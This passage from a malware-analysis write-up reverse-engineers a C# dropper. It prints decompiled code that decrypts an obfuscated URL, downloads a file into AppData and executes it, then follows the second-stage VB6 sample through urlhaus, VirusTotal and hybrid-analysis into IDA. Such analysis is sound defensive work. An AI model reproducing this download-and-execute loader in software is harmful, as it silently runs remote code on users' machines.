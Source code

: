     string e17362=Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData)+"\\aab37

    "+r8dc5("57534106");

    ee86b.DownloadFile(r8dc5("11424d135b5619580e000b575a0b08575450194e10515b0c030c534

    3064f1c4e5c"),e17362);

    ProcessStartInfo f636b4c=new ProcessStartInfo(e17362);

    Process.Start(f636b4c);

We can tell from this code that a file will be downloaded and saved in a folder, then a process will start with the handle to the downloaded file(I assume), and I’m not going to be bothered to confirm it because it doesn't matter to us. We want the binary to be downloaded. so we must run the same previous **r8dc5** function to decrypt the input it gets to download the file!

![602x36](https://lh5.googleusercontent.com/Dy8BhIY8As5crXaFk3yGiLAkg4omkZ4Z-Gz80VISg1gGi2VDE_fXfoPCuDfcghy_0C7lF2nUB5ntwDsTBn4g-XgFO7yHmuLRg190tkvTA48ZeSKdd0ZtnzTqpfwZI9FBR7WBJ3a-)

Yay! we got it! but alas this domain is already down?
![602x229](https://lh3.googleusercontent.com/jLTqC1Jkj3Qzs7SSkwpHG9gcD6TW4hytq0yo1J59jIO5i0VaLzZcC745WjtLa6MIAEAD1JyiERQTA2DpJJf6prxAfF2KmCRV0EExEnQKwaCGkOwLRhC8WtnVabN7ekUoYHivm1tl)

Well.. it’s hard to say, because if we check the connections made to this domain from the any.run platform we can see that the powershell got this exact same response.

![602x407](https://lh4.googleusercontent.com/c8iu36Q0H5F_Ry2j3U755Nu4Xq1fAXq3_uvEY_muN-p8tcC5gBArN4fgmb7FSpEAT4aecUmI6_ew_TePwXdqa3TrpCYONCqAPio8hVMaDJGnsj__2HPeW_wIKTQ8nlW3Bq6hkNrI)

but we can try finding the sample to be downloaded if we simply google it.

[urlhaus](https://urlhaus.abuse.ch/url/292461/) leads to [Virus total](https://www.virustotal.com/gui/file/e6ffb945247085ceb6b2478c643dc337a35d5c0c17d2e4709c3a5842c9bcb3e3/detection) which gives us the SHA256 hash of this file(which only 13 AV engines detected as of this date!) and a google search of that leads to [hybrid-analysis](https://hybrid-analysis.com/sample/e6ffb945247085ceb6b2478c643dc337a35d5c0c17d2e4709c3a5842c9bcb3e3?environmentId=120), and from there we can get the raw sample(or 0x00sec users can just use getsample in the discord malware channel).

I downloaded the sample and ran it in PEID:

![536x306](https://lh3.googleusercontent.com/Ec50Uoa32NIAyZkG5RPvwCoidTIEU08EQc6oHPx6Wcg0z8nRE7STVYfq5Aw1keUHn_YZAiyNkVZ_ULGfA9TeGDTHm1Ahx16SNtTLe26jFXH15RxipQtAdg0wJlZodY-NTvCquHnH)

Alright, Vb6? Lets see how it looks in IDA:

![602x351](https://lh6.googleusercontent.com/qat0K_V4Y2TD0hQ8uD54Mzwpgs4kEwgkmnTyaBktCHyi_koZ0XgrgVHEm3njV1QuiujhA8Oy8YvfPhiYi-GGunlB9M_39Jc0rKmC76_srpry5D4W_Z8p6Yn_lDMZ9L1aj86cfblq)

So as soon as I got released from the hospital from the seizure I got from looking at the disassembly I decided to start digging further.

as the following [virus bullet-in](https://www.virusbulletin.com/virusbulletin/2014/07/not-old-enough-be-forgotten-new-chic-visual-basic-6) paper states:

> "...The laughing vs. crying aspect of VB6 is primarily related to the fact that VB6 internals lack any sort of official documentation. The inner workings of the VB6 virtual machine and the functionality of its exported functions are literally a mystery to anyone who has not taken an in-depth look at msvbvm60.dll.
> 
> For native code reversing, it is crucial to understand the challenges of event-driven binaries. Also, the reverser must interpret the functionality of the VB6 APIs called from the binary. But, given that malware executes pretty linearly by nature, and the VB6 APIs are mostly assigned understandable names, native code reversing is just another colourful facet of x86 binaries...”
